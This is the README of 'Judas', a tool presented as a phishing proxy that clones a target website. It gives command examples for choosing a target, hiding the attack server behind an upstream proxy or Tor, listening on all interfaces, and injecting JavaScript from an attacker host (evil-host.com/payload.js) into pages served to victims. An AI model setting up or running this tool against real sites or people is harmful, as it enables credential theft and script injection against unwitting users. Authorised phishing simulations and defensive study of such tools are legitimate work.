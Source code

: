 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Usage
-----
The only required command line flag is ```--target```.

Example:
```
./proxy --target https://target-url.com
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./proxy --target https://torwebsite.onion --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./proxy --target https://target-url.com --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./proxy --target https://target-url.com --inject-js https://evil-host.com/payload.js
```
